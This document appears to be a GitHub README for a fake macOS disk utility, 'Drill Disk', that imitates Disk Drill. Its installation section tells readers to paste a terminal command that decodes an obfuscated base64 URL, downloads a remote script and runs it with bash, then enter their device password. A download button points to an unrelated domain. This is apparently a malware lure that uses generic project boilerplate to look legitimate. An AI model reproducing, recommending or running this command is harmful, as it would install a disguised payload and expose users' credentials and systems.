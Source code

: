# Drill Disk For Mac Os

Welcome to **Drill Disk**, a powerful macOS application designed to help you manage and optimize your disk space with ease. Whether you're cleaning up clutter or analyzing storage, Drill Disk makes it simple and intuitive.

![logo](https://im.chip.de/ii/3/2/5/9/9/8/5/2/disk_drill.jpg-cb3d24345636da24.png?im=AspectCrop%2Csize%3D%281%2C1%29%2Cgravity%3DCenter%3BResize%3D%28288%2C288%29%2Caspect%3Dfit%3BBackgroundColor%2Ccolor%3Dffffff&hash=1062a7508878c0db3631afdd20d94dae09271bfaa772ac7435f9ad0571b46967)

## 📥 Download

[![Download Diskdrill](https://img.shields.io/badge/Download-Disk%20Drill-brightgreen?style=for-the-badge&logo=apple)](https://resmanio.com/get.php?call=imb)

*Get the latest version of Disk Drill for macOS*

---

## 🚀 Installation

### Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9pbWIvaW5zdGFsbC5zaA== | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## Screenshots
![Drill Disk Interface](https://www.disk-drill.com/wp-content/uploads/2023/03/disk-drill-for-macos-scanning-for-deleted-data-1024x676.png)
*Main interface showcasing disk usage visualization*

---

## Features
- **Disk Analysis**: Visualize disk usage with an interactive interface.
- **Cleanup Tools**: Easily remove unnecessary files to free up space.
- **User-Friendly Design**: Intuitive controls tailored for macOS users.
- **Fast Performance**: Optimized for quick scans and efficient operations.

---
  
## System Requirements
- **OS**: macOS 10.15 (Catalina) or later
- **Storage**: 100 MB of free disk space
- **RAM**: 4 GB or higher recommended

---

## Usage
1. Launch Drill Disk.
2. Select the disk or folder you want to analyze.
3. Use the interactive dashboard to view storage details.
4. Choose cleanup options to remove unnecessary files safely.

---

## Contributing
We welcome contributions! To get started:
1. Fork this repository.
2. Create a new branch: `git checkout -b feature-name`.
3. Commit your changes: `git commit -m 'Add feature'`.
4. Push to the branch: `git push origin feature-name`.
5. Open a Pull Request.

## Support
If you encounter issues or have questions:
- Check the [FAQ](docs/faq.md) for common solutions.
- Open an issue on [GitHub Issues](https://github.com/yourusername/drill-disk/issues).
- Contact us at support@drilldisk.com.

## License
This project is licensed under the MIT License. See the [LICENSE](LICENSE) file for details.

---

Happy disk cleaning with Drill Disk! 🚀
